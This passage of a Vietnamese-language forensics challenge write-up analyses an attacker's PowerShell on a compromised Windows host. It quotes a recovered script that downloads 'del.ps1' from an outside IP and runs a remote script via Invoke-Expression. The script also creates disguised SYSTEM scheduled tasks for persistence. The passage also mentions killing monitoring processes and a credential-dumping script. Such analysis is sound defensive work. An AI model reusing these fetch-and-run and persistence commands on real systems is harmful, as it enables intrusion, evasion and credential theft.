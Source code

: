 `del.ps1` có tác dụng kết thúc các process trong `$list` để tránh việc chúng ghi lại những hành động của hacker và tránh việc các phần mềm độc hại hacker tải về sau đó bị phát hiện

`http://87.96.21.84/del.ps1`

## Q10

**Identifying malicious tasks and understanding how they were used for persistence helps in fortifying defenses against future attacks. What's the full name of the task created by the attacker to maintain persistence?**

Tiếp tục kiểm tra trong `checking.ps1` để biết được hacker đã thực hiện persistence như nào

```powershell
Function CleanerEtc {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\ProgramData\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /f /tn "\Microsoft\Windows\MUI\LPupdate" /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass -File C:\ProgramData\del.ps1" /ru SYSTEM /sc HOURLY /mo 4 /create | Out-Null
    Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('http://87.96.21.84/ichigo-lite.ps1'))
}


Function CleanerNoPriv {
    $WebClient = New-Object System.Net.WebClient
    $WebClient.DownloadFile("http://87.96.21.84/del.ps1", "C:\Users\del.ps1") | Out-Null
    C:\Windows\System32\schtasks.exe /create /tn "Optimize Start Menu Cache Files-S-3-5-21-2236678155-433529325-1142214968-1237" /sc HOURLY /f /mo 3 /tr "C:\Windows\System32\cmd.exe /c powershell -ExecutionPolicy Bypass C:\Users\del.ps1" | Out-Null
}
```

Option `/tn` là taskname - tên của tác vụ khởi tạo

`\Microsoft\Windows\MUI\LPupdate`

## Q11

**Based on your analysis of the second malicious file, What is the MITRE ID of the main tactic the second file tries to accomplish?**

File `del.ps1` được tải về và thực thi sau khi hacker đã thực hiện persistence và tắt đi các phần mềm theo dõi hoạt động process trên máy thì có thể nghĩ đến tactic [Defense Evasion](https://attack.mitre.org/tactics/TA0005)

`TA0005`

## Q12

**What's the invoked PowerShell script used by the attacker for dumping credentials?**

Kiểm tra tcp với http stream mệt quá, export hết file từ HTTP ra cho nhàn, file được dùng để dump user creds là `Invoke-PowerDump.ps1`
